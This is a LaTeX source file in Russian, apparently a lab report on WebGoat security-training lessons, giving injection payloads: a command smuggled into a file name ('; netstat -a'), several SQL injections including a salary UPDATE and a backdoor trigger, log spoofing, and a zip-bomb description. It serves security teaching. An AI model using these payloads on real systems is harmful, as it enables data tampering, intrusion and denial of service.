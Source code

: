 \documentclass[a4paper, 14pt]{article}				%
\begin{document}
\subsection{Недостатки приводящие к осуществлению инъекций (SQL и прочее)}
\begin{itemize}
\item Command injection
Перехватываем запрос, добавляем к имени файла строку:
\begin{Verbatim}[frame=single]
%22%3B%20netstat%20-a
\end{Verbatim}
\item Numeric SQL injection
Перехватываем запрос. Модифицируем:
\begin{Verbatim}[frame=single]
station=101or%201%3D1&SUBMIT=Go!
\end{Verbatim}
\item Log spoofing
Перехватываем запрос, меняем имя на следующее:
\begin{Verbatim}[frame=single]
somename
Admin succefully entered!
\end{Verbatim}
В результате, в логе создается видимость того, что админ авторизовался.
\item SQL Injection
Перехватываем сообщение. В качестве пароля вводим:
\begin{Verbatim}[frame=single]
123123%27%20OR%20%271%27%3D%271
\end{Verbatim}
При попытке получить данные на втором шаге получаем сообщение:
\begin{Verbatim}[frame=single]
THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT
\end{Verbatim}
\item String sql injection
Аналогично. Вместо имени вводим 123123' OR 'a' = 'a. Получаем все возможные значения.
\item Modify Data with SQL INJECTION
Вместо имени вводим:
\begin{Verbatim}[frame=single]
123'; UPDATE salaries SET salary=5 
WHERE userid='jsmith
\end{Verbatim}
\item Database backdoors
По такой же схеме можно добавлять и триггеры:
\begin{Verbatim}[frame=single]
101; CREATE TRIGGER myBackDoor BEFORE INSERT ON
 employee FOR EACH ROW BEGIN UPDATE employee 
 SET email='john@hackme.com' WHERE userid = NEW.userid
\end{Verbatim}
\end{itemize}


\subsection{Отказ в обслуживании}
В пункте ZipBomb создается файл zip, содержащий большое количество одинаковых символов. При распаковке потребление памяти станет огромным из-за большой степени сжатия.
\end{document}
